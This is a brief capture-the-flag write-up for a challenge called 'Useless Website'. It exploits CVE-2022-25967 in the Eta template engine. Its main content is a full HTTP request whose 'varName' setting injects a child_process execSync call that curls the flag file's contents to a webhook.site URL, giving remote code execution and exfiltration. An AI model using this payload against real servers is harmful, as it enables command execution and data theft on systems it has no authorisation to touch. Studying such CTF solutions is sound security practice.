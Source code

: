 # Useless Website
## Step by Step Solve
---
1. Download the source code of the website
2. We can see theres something in the package.json file
   - ![image](https://github.com/user-attachments/assets/ded38f60-d45c-406f-87ca-353241b395e5)
3. Searching on the internet ```CVE-2022-25967``` showing that there is some leakage can be use on the eta framework.
4. In burpsuite, intercept the web and change to this
``` POST /utils/settings HTTP/1.1
    Host: 5.75.155.50:1341
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    Connection: keep-alive
    Content-Type: application/json
    Upgrade-Insecure-Requests: 1
    If-None-Match: W/"1057-ih1IUXlwncna8aHynJLYIHjiX30"
    Priority: u=0, i
    Content-Length: 292
    
    {
      "settings": {
        "view options": {
          "varName": "x=process.mainModule.require('child_process').execSync('curl https://webhook.site/self id/$(cat /flag.txt)')",
          "include": false,
          "includeFile": false,
          "useWith": true
        }
      }
    }
```

5. And we can find out the flag at the end of the webhook link.
   - ![image](https://github.com/user-attachments/assets/ee3ce174-09de-43c1-82ea-43f979aa075d)

### Acknowledgement
Thx for Megat for the solution.
